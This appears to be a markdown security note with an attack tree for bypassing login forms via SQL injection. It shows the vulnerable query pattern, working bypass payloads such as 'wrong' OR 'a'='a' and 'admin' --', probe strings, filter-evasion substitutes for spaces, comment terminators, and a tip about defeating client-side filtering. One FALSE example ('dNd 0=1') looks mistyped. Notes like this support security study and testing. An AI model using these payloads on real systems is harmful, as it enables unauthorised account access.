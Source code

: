 # SQL injection login bypass

## Attack tree

```text
1 SQL injection login bypass
    1.1 Find out if the database is vulnerable (AND)
        1.1.1 Inject data in the query without breaking it
    1.2 Build an SQL segment that will modify the WHERE clause and make it true (AND)
        1.2.1 Use login page logic to create an SQL segment on admin 
    1.3 Inject 
    1.4 Post exploitation
```

## Example SQL segments

```text
SELECT * FROM users WHERE username='$USERNAME' AND password='$PASSWORD'
```

Assume a login form with two input fields (username and password) which are both vulnerable (page breaks on 
entering a `'` and responds to changed queries), meaning, the backend script generates a query to validate username and 
password provided by the user and quotes are not correctly handled (escaped) by the application and allow an adversary 
to modify the query. 

The page logic:

```text
admin
wrong' OR 'a'='a
```

Results in a WHERE clause which is true:

```text
SELECT * FROM users WHERE username='admin' AND password='wrong' OR 'a'='a'
```
Because of operator precedence, the AND condition is evaluated first. Then the OR operator is evaluated, making the 
WHERE clause true. Even more, the condition will be true for all rows of the users table and as a result,
username is ignored and the adversary will be logged in as the first user in users table.

The page logic:

```text
admin' --
whatever
```

Also results in a WHERE clause which is true, but now the adversary logs in as admin:

```text
SELECT * FROM users WHERE username='admin' -- AND password='whatever'
```

Line commenting eliminates a part of the login condition and gains access.
Note: For some DBMS, a space needs to be added before and after `--`.

## SQLi tips

Examples of TRUE statements for discovering sqli:

    aNd 1=1
    aNd 21=21
    orDeR bY 1

Examples of FALSE statements

    dNd 0=1
    anD 9=2
    ordEr bY 1000000000000

Characters to use instead of spaces:

    +, /**/, %20

Examples: orDeR bY 1 can be re-written as

    orDer+bY+1
    orDer/**/bY/**/1
    orDer%20bY%201

Comments to end the queries:

    /*
    //
    #
    %23

Sometimes you might need to add ';' before the comment, examples:

    anD 1=1//
    anD 1=1;//

## Notes

If the simple login bypass is not working, check with Burp proxy whether there is client side filtering. If so, modify the request.
